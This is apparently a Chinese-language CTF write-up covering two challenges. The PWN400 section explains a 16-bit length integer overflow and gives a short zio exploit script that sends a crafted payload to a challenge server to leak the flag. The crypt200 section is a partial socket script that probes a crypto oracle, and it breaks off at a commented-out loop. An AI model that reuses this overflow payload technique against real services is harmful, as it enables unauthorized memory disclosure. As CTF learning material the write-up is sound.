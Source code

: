 
###PWN400

ida载入程序,可以看到,程序会将flag.txt的内容读取到栈中,于是想到在栈中应该有个办法可以输出越界,分析程序的各种限制,发现存在问题的地方
if ( (unsigned __int16)(file_name_length + 2) <= (_BYTE *)recv - (_BYTE *)src + recv_length - 46 )

file_name_length是16位长度,且可由用户控制,于是尝试\xff\xff,加2后,越界,然后输出了一大堆东西,即获得flag

```
from zio import *

io = zio(('159.203.87.2', 8888))

welcome = io.read_until_timeout()

io.write('a'*100 + 'PK\x01\x02'+ 'b'*24 + '\xff\xff' + 'c'*18)

io.interact()
```

###crypt200
脚本如下：
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Url__ = 'Http://www.purpleroc.com'
__author__ = 'Tracy_梓朋'


import socket
import time
import binascii

SERVER_HOSTNAME = '133.130.52.128'
#SERVER_HOSTNAME = '127.0.0.1'
SERVER_PORT = 6666

def mkprof(s):
    clientsocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    clientsocket.connect((SERVER_HOSTNAME, SERVER_PORT))
    s=str(s)
    clientsocket.send("mkprof:"+s)
    ret = clientsocket.recv(1024)
    clientsocket.close()
    return str(ret)

def parse(s):
    clientsocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    clientsocket.connect((SERVER_HOSTNAME, SERVER_PORT))
    s=str(s)
    clientsocket.send("parse:"+s)
    ret = clientsocket.recv(1024)
    clientsocket.close()
    return str(ret)


input_length = 0
last_ret = ''
# while True:
#     input_length += 1
#     s = 'a' * input_length
#     print s
#     this_ret = parse(s)
#     print this_ret
#     #find common prefix of last_ret and this_ret
#     time.sleep(0.5)
```